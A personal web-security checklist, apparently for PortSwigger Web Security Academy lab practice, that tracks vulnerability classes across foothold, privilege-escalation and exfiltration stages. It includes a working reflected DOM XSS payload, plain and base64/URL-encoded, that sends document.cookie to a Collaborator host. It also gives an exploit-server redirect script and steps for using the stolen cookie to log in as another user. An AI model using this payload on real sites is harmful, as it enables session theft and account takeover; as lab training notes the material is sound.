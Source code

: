1. Checked boxes means that the vulnerability has been checked and is not present.
2. make space below the checkboxes to add in screenshots for proof (only successful attempts?)
# SCANNING (Enumeration)
## Focus Scanning
- use *Scan selected insertion points* after selecting values 
	- add to the same task to not have too many tasks
		- be wary that it will queue up and may take longer
## Non-Standard Data Structures Scanning
- scan cleartext only if the value has a mix of cleartext and tokens/encoding
# STAGE 1: FOOTHOLD
- [x] Content Discovery?
	- `ffuz`, `robots.txt`
- [ ] [XSS?](../notes/client-side/Cross-Site%20Scripting%20(XSS).md)
	- [ ] [](../notes/client-side/Cross-Site%20Scripting%20(XSS).md#DOM-Based%20XSS|DOM%20XXS?)
		- [ ] reflected DOM XSS : bypassing signature based filters
			- payload:
				`"-eval(atob('var i=new Image();i.src="http://h1jxn2m4xioxosa95g1bwm9dy44vsmia7.oastify.com/?cookie="+document.cookie;'))-"`
			- encoded payload:
				```
				%22-eval(atob('dmFyIGk9bmV3IEltYWdlKCk7IGkuc3JjPSJodHRwOi8vZ2N3emxvY3F2bWlrMzRxM3hpOW0xMGprN2JkMjF2cGsub2FzdGlmeS5jb20vP2Nvb2tpZT0iK2RvY3VtZW50LmNvb2tpZTs='))-%22
				```
			![Screenshot 2024-06-18 at 4.21.08 PM.png](Screenshot%202024-06-18%20at%204.21.08%20PM.png)
			- the following is received in *Collaborator*:
				![Screenshot 2024-06-18 at 6.32.38 PM.png](Screenshot%202024-06-18%20at%206.32.38%20PM.png)
			- use the following in the body of the exploit server and then deliver to victim, 
				```html 
				<script>
				document.location.href = "https://0a7e00db033481818283e7d8007000aa.web-security-academy.net/?SearchTerm=%22-eval(atob('dmFyIGk9bmV3IEltYWdlKCk7IGkuc3JjPSJodHRwOi8vZ2N3emxvY3F2bWlrMzRxM3hpOW0xMGprN2JkMjF2cGsub2FzdGlmeS5jb20vP2Nvb2tpZT0iK2RvY3VtZW50LmNvb2tpZTs='))-%22"
				</script>
				```
			- should receive their cookie
				![Screenshot 2024-06-18 at 6.38.40 PM.png](Screenshot%202024-06-18%20at%206.38.40%20PM.png)
			- open a blog post (has no csrf or any other parameters) and paste the cookie in *Repeater*. open the response in browser to log in as *carlos*:
				![Screenshot 2024-06-18 at 6.42.22 PM.png](Screenshot%202024-06-18%20at%206.42.22%20PM.png)
- [x] [Web Cache Poisoning?](../notes/advanced-topics/Web%20Cache%20Poisoning.md)
- [x] [HTTP Host Header Attack?](../notes/advanced-topics/HTTP%20Host%20Header%20Attacks.md)
- [x] [Request Smuggling?](../notes/advanced-topics/HTTP%20Request%20Smuggling.md)
- [x] [](../notes/server-side/Authentication.md#Brute-Force%20Attacks|Brute-Force%20Authentication?)
- [x] Others?
# STAGE 2: PRIVILEGE ESCALATION
- [x] [CSRF?](../notes/client-side/Cross-Site%20Request%20Forgery%20(CSRF).md)
- [x] Password Reset
	- multiple different types, check all
- [ ] [SQLi?](../notes/server-side/SQL%20Injection.md)
	- advanced search page
	- ran `sqlmap` on the blog parameter with the following command:
		``
- [x] JWT?
- [x] [Access Control?](../notes/server-side/Access%20Control.md)
- [x] [[Cross-Origin Resource Sharing (CORS)]CORS?]

# STAGE 3: DATA EXFILTRATION
- [x] [XXE?](../notes/server-side/XML%20External%20Entity%20Injection%20(XXE).md)
- [x] [SSRF?](../notes/server-side/Server-Side%20Request%20Forgery%20(SSRF).md)
- [x] [SSTI?](../notes/advanced-topics/Server-Side%20Template%20Injection%20(SSTI).md)
- [x] [Path Traversal?](../notes/server-side/Path%20Traversal.md)
- [x] [File Upload?](../notes/server-side/File%20Upload.md)
- [ ] [Insecure Deserialization?](../notes/advanced-topics/Insecure%20Deserialization.md)
- [x] [Command Injection?](../notes/server-side/OS%20Command%20Injection.md)
